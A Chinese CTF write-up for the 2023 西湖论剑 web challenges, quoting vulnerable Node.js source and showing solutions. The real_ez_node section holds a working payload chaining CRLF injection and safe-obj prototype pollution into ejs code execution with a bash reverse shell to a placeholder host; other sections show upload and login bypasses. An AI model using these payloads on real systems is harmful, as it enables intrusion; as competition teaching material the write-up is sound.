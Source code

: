 ```yaml
---
title: "2023 西湖论剑 Web 部分 Writeup"
date: 2023-02-03T18:00:53+08:00
lastmod: 2023-02-03T18:00:53+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


web 差一半, 等官方 wp 吧...

团队整体第二名, 学长们 tql

<!--more-->

## real_ez_node

/routes/index.js

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/',(req,res)=>{
  if (req.query.q) {
    console.log('get q');
  }
  res.render('index');
})
router.post('/copy',(req,res)=>{
  res.setHeader('Content-type','text/html;charset=utf-8')
  var ip = req.connection.remoteAddress;
  console.log(ip);
  var obj = {
      msg: '',
  }
  if (!ip.includes('127.0.0.1')) {
      obj.msg="only for admin"
      res.send(JSON.stringify(obj));
      return 
  }
  let user = {};
  for (let index in req.body) {
      if(!index.includes("__proto__")){
          safeobj.expand(user, index, req.body[index])
      }
    }
  res.render('index');
})

router.get('/curl', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
            try {
                http.get(url,(res1)=>{
                    const { statusCode } = res1;
                    const contentType = res1.headers['content-type'];
                  
                    let error;
                    // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                    if (statusCode !== 200) {
                      error = new Error('Request Failed.\n' +
                                        `Status Code: ${statusCode}`);
                    }
                    if (error) {
                      console.error(error.message);
                      // 消费响应数据以释放内存
                      res1.resume();
                      return;
                    }
                  
                    res1.setEncoding('utf8');
                    let rawData = '';
                    res1.on('data', (chunk) => { rawData += chunk;
                    res.end('request success') });
                    res1.on('end', () => {
                      try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData+'');
                      } catch (e) {
                        res.end(e.message+'');
                      }
                    });
                  }).on('error', (e) => {
                    res.end(`Got error: ${e.message}`);
                  })
                res.end('ok');
            } catch (error) {
                res.end(error+'');
            }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

Dockerfile 中的环境是 `node:8.1.2`, 存在 CRLF 注入

参考文章: [https://www.anquanke.com/post/id/240014#h2-11](https://www.anquanke.com/post/id/240014#h2-11)

然后结合已知的 safe-obj 原型链污染, 即 `CVE-2021-25928`, 利用 ejs 进行 rce

构造 payload

```python
from urllib.parse import quote

payload = ''' HTTP/1.1


POST /copy HTTP/1.1
Host: 127.0.0.1:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/json
Content-Length: 218

{"constructor.prototype.client":true,"constructor.prototype.escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('bash -c \\"bash -i >& /dev/tcp/x.x.x.x/yyyy 0>&1\\"');"}

GET /'''.replace('\n', '\r\n')

enc_payload = u''

for i in payload:
    enc_payload += chr(0x0100 + ord(i))

print(quote(enc_payload))
```

![image-20230202180355225](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021804644.png)

反弹 shell 后执行 `cat /flag` 即可

## 扭转乾坤

直接上传提示 `Sorry,Apache maybe refuse header equals Content-Type: multipart/form-data;.`

![image-20230202180603240](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021806316.png)

构造错误的 http 包格式就可以绕过

![image-20230202180630208](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021806297.png)

## Node Magical Login

controller.js

```javascript
const fs = require("fs");
const SECRET_COOKIE = process.env.SECRET_COOKIE || "this_is_testing_cookie"

const flag1 = fs.readFileSync("/flag1")
const flag2 = fs.readFileSync("/flag2")


function LoginController(req,res) {
    try {
        const username = req.body.username
        const password = req.body.password
        if (username !== "admin" || password !== Math.random().toString()) {
            res.status(401).type("text/html").send("Login Failed")
        } else {
            res.cookie("user",SECRET_COOKIE)
            res.redirect("/flag1")
        }
    } catch (__) {}
}

function CheckInternalController(req,res) {
    res.sendFile("check.html",{root:"static"})

}

function CheckController(req,res) {
    let checkcode = req.body.checkcode?req.body.checkcode:1234;
    console.log(req.body)
    if(checkcode.length === 16){
        try{
            checkcode = checkcode.toLowerCase()
            if(checkcode !== "aGr5AtSp55dRacer"){
                res.status(403).json({"msg":"Invalid Checkcode1:" + checkcode})
            }
        }catch (__) {}
        res.status(200).type("text/html").json({"msg":"You Got Another Part Of Flag: " + flag2.toString().trim()})
    }else{
        res.status(403).type("text/html").json({"msg":"Invalid Checkcode2:" + checkcode})
    }
}

function Flag1Controller(req,res){
    try {
        if(req.cookies.user === SECRET_COOKIE){
            res.setHeader("This_Is_The_Flag1",flag1.toString().trim())
            res.setHeader("This_Is_The_Flag2",flag2.toString().trim())
            res.status(200).type("text/html").send("Login success. Welcome,admin!")
        }
        if(req.cookies.user === "admin") {
            res.setHeader("This_Is_The_Flag1", flag1.toString().trim())
            res.status(200).type("text/html").send("You Got One Part Of Flag! Try To Get Another Part of Flag!")
        }else{
            res.status(401).type("text/html").send("Unauthorized")
        }
    }catch (__) {}
}



module.exports = {
    LoginController,
    CheckInternalController,
    Flag1Controller,
    CheckController
}
```

构造 cookie `user=admin` 拿到前半部分 flag

![image-20230202180812631](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021808709.png)

因为 CheckController 在检查 checkcode 的时候没有对 catch 到的异常进行处理, 所以可以构造一个长度为 16 的数组使得调用 `checkcode.toLowerCase()` 时报错, 然后进入 `catch (__) {}`, 最后顺下去执行得到后半部分 flag

```json
{"checkcode":[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16]}
```

![image-20230202181034296](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021810378.png)